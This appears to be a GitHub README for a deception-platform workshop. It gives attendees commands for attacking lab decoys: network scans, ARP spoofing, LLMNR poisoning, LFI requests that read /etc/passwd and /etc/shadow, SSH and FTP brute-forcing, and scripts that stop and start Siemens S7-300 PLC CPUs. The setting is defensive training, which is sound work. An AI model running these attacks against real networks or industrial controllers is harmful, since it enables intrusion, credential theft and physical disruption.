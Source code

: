 # Welcome to the Advanced Threat Summit 2023

All you may need for the workshop is available in this repository.

## Getting the access
To begin with, please navigate to our test stand:
1. **Credentials to the AdminVM**
You may use any web browser of your choice.
```
URL: 
Username:
Password:  
```

2. **Credentials to the attacking host**
From this host you will perform your attacks. Please use SSH and following credentials:
```
Host:
Username:
Password:
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own therms that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **AdminVM (Management Console)**  = main module that controls the system.
6. **WorkerVM** = node on which Points are running.


## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: connecting to the host using data from breadcrumbs 
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: ARP spoofing
```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
As an alternative you may use bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// after some time
arp.spoof off
```
References: [ettecap](https://www.ettercap-project.org/) and [bettercap](https://github.com/bettercap/bettercap) source

#### Case 4: LLMNR / NBT-NS Poisoning
For this we will be using *Responder*. It is already installed. All you need to do is to run a command:

```
cd Responder
sudo python2 Responder.py -I eth0
```
Reference: [Responder source](https://github.com/SpiderLabs/Responder)

#### Case 5: S7comm Malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is available in this repo.
Simply run it: 
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
#### Case 6: Local File Inclusion
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```

#### [Advanced] Case 7: reusing the credentials
1. Find Web Server
```
sudo nmap -sS -sC -p80,443 <Honeynet IP> -vvv
```
2. Explore found web server
Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Search for additioanl web path:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
6. Reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 8: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP
Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP adress>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP adress>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
